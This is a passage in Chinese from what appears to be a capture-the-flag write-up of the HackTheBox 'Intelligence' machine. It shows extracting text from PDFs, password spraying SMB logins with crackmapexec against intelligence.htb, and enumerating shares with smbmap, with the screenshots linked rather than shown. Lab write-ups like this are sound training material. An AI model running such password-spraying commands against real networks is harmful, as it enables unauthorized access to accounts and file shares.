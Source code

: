 ## 获取密码

### 数据提取

```plain
for file in *.pdf; do pdftotext -layout "$file"; done
```

## 密码喷洒

使用 crackmapexec 来进行密码喷射

```plain
crackmapexec smb intelligence.htb -u ./users.txt -p '<HIDDEN>'
```

## SMB 共享

使用 smbmap 来枚举 SMB 共享。

[![](assets/1701071906-5d1fedcc1a757501b94f6db7ae7cf03a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125212952-b72be962-8b96-1.png)

发现存在大量共享目录

[![](assets/1701071906-32847d466d133bd39a105b5e6e6d4d88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213004-be033100-8b96-1.png)

我们拥有对“用户”和“IT”的读取权限。我们可以让 smbmap 列出我们有权访问的所有内容

[![](assets/1701071906-55dac9bcaf2244225017cec0097c5c83.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213016-c55acc56-8b96-1.png)
